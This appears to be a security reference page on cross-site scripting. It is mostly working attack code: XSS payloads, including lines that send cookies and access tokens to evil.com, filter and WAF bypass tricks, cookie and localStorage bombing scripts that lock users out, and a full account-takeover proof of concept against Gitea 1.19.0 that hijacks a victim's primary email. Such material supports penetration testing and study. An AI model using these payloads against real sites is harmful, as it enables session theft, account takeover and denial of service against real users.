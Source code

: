 ```yaml
---
title: "XSS - Cross-site Scripting"
description: "Overview of Cross-Site Scripting"
lead: "Overview of Cross-Site Scripting"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## Basic payloads

- [Cross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet): List of XSS payloads.

```html
<script>alert()</script>
<img src=x onerror=alert()>
<svg onload=alert()>

<!-- Run debugger -->
<img src=x onerror=debugger>

<!-- Data exfiltration -->
<script>
document.location='//evil.com?c='.concat(document.cookie);
document.location='//evil.com?t='.concat(localStorage.getItem('access_token'));
</script>
```

## Filter/WAF Bypass

Basic filter bypass:

```html
<!-- Alternate case -->
<sCrIpt>alert()</ScRipt>
<!-- No quotes -->
alert(String.fromCharCode(88,83,83))
alert(/XSS/.source)
eval(atob(`YWxlcnQoKQ`))
<!-- No parenthesis -->
alert`1`
<!-- Alternate calls -->
["XSS"].map(alert)
\u0061\u006C\u0065\u0072\u0074("XSS")
```

Call a function using `self["<func_name>"]()`:

```html
self[location.hash.substr(1,)]("XSS") <!-- Append #alert to our URL -->
self[Object.keys(self)[5]]("XSS")

> Object.keys(self)
>>> Array(316) [ "close", "stop", "focus", "blur", "open", "alert", "confirm", "prompt", "print", "postMessage", … ]
```

## DOS

### Cookie bombing

Servers often block users that send requests with very large headers (e.g. 8K or 16K bytes).

- [431 - Request Header Fields Too Large](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431): when the total size of request headers is too large, or when a single header field is too large. Not to be confused with [414 - URI too long](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/414).

```js
const value = "a".repeat(4080);
document.cookie = "";

for (let i = 0; i < 100; i++) {
    let name = "a" + i;
    document.cookie = `${name}=${value}; path=/; domain=.example.com`;
}
```

{{< details "Nginx - large_client_header_buffers" >}}
> Syntax: 	large_client_header_buffers number size;<br>
> Default: 	large_client_header_buffers 4 8k;

- [large\_client\_header\_buffers](http://nginx.org/en/docs/http/ngx_http_core_module.html#large_client_header_buffers): Sets the maximum number and size of buffers used for reading large client request header. **By default, the buffer size is equal to 8K bytes**.
- A request header field cannot exceed the size of one buffer as well, or the 400 (Bad Request) error is returned to the client.
{{< /details >}}

{{< details "Apache - LimitRequestFieldSize" >}}
> Syntax: LimitRequestFieldSize bytes<br>
> Default: LimitRequestFieldSize 8190

- [LimitRequestFieldSize](https://httpd.apache.org/docs/current/mod/core.html#limitrequestfieldsize): specifies the number of bytes that will be allowed in an HTTP request header.
{{< /details >}}

{{< details "NodeJS - http.maxHeaderSize" >}}
- [http.maxHeaderSize](https://nodejs.org/api/http.html#httpmaxheadersize): Read-only property specifying the maximum allowed size of HTTP headers in bytes. **Defaults to 16384 (16 KiB)**.
- Configurable using the CLI option `--max-http-header-size=size` or inside [`http.request(url[, options][, callback])`](https://nodejs.org/api/http.html#httprequesturl-options-callback)
{{< /details >}}

### Local/Session Storage bombing

Local/Session storage have a size limit which depends on the web browser.

- `localStorage` and `sessionStorage` both use the [Storage interface](https://html.spec.whatwg.org/#the-storage-interface).
- The Storage interface throws a [QuotaExceededError](https://webidl.spec.whatwg.org/#dom-domexception-quota_exceeded_err) ([DOMException](https://webidl.spec.whatwg.org/#idl-DOMException)) if the quota has been exceeded.
```js
const value = "a".repeat(4080);
localStorage.clear();
sessionStorage.clear();

for (let i = 0; i < 100; i++) {
    let name = "a" + i;
    localStorage.setItem(name, value);
    sessionStorage.setItem(name, value);
}
```

- [Test of localStorage limits/quota](https://arty.name/localstorage.html): Test the limit of your browser.

{{< details "Limit - Numbers of characters" >}}
- Chrome 6.0.472.36 beta: 2600-2700k
- Firefox 3.6.8: 5200-5300k
- Explorer 8: 4900-5000k
- Opera 10.70 build 9013 popped a dialog, that allowed me to give the script unlimited storage.
{{< /details >}}

## Account Takeover

### Gitea - Change primary email

{{< details "Proof of Concept" >}}
Tested on **Gitea Version 1.19.0** (2023-04-25)

Before running the PoC:
![Before Gitea ATO](https://i.imgur.com/eYL86BI.png)

After running the PoC:
![After Gitea ATO](https://i.imgur.com/022HvKl.png)

Proof of Concept code:
```js
const attacker_email = "evil@yopmail.com";

// 1) Obtain CSRF token
fetch("/user/settings/account").then(res => res.text()).then(data => {
    let csrfToken = data.match(/csrfToken: '([a-zA-Z0-9_-]+)',/).at(-1);
    // 2) Add secondary email address
    fetch("/user/settings/account/email", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: `_csrf=${csrfToken}&email=${attacker_email}`
    })
    .then(res => res.text()).then(data => {
        // 3) Obtain CSRF token & email ID
        fetch("/user/settings/account").then(res => res.text()).then(data => {
            let csrfToken = data.match(/csrfToken: '([a-zA-Z0-9_-]+)',/).at(-1);
            let email_id = "";

            const htmlDoc = new DOMParser().parseFromString(data, "text/html");
            const emailStrong = htmlDoc.getElementsByClassName("ui email list")[0].getElementsByTagName("strong");
            for (let i = 0; i < emailStrong.length; i++) {
              if (emailStrong[i].innerText == attacker_email) {
                email_id = emailStrong[i].parentNode.parentNode.getElementsByClassName("button delete-button")[0].getAttribute("data-id");
                break;
              }
            }
            // 4) Set the email to primary address
            fetch("/user/settings/account/email", {
                method: "POST",
                headers: {
                    "Content-Type": "application/x-www-form-urlencoded"
                },
                body: `_csrf=${csrfToken}&_method=PRIMARY&id=${email_id}`
            });
        });
    })
})
```
{{< /details >}}

## XSS to RCE

Todo:
- Wordpress
- Drupal


